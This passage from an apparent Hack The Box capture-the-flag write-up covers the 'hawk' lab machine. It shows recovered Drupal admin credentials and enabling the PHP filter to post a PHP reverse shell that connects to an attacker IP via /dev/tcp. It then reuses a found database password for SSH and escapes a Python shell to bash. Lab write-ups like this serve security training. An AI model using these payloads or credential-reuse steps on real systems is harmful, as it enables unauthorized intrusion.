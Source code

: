 Cool. Got the password for the drupal portal!
```
admin
PencilKeyboardScanner123
```
Now I need to try and get a shell!

# Foothold

Checking the creation of content, there is a drop down menu showing what content type I want. I want php but it is not there. Checking in the admin settings under Modules, there is an option for PHP filtering I need to enable. After saving and creating a new article, I am able to set it as PHP. 
![Pasted image 20230816102803](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/acba8eef-3363-41a3-b9c7-b185e654bd64)

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.58/1234 0>&1'"); ?>
```
And then clicking preview gives me a shell!
From here I am able to view the /home/ directory and see there is a directory for `daniel` with the user flag which I actually can read even though I am www-data
```
www-data@hawk:~$ cat /home/daniel/user.txt
cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX4
```

Interesting that www-data is allowed to read the user flag. Not tipical but a win is a win...

# Priv-Esc
Running linpeas found a few things. there is a php password somewhere 
```
drupal4hawk
```
Might be a database password... 

I tried using this as an ssh password and it did let me in. Interestingly enough, this looks like it is a python shell. I can get a proper bash shell using
```python
>>> import os
>>> os.system("bash");
```

```
Last login: Wed Aug 16 14:42:32 2023 from 10.10.14.58
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> os.system("bash");
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'os' is not defined
>>> import os
>>> os.system("bash");
daniel@hawk:~$ whoami && id
daniel
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
daniel@hawk:~$ 

```
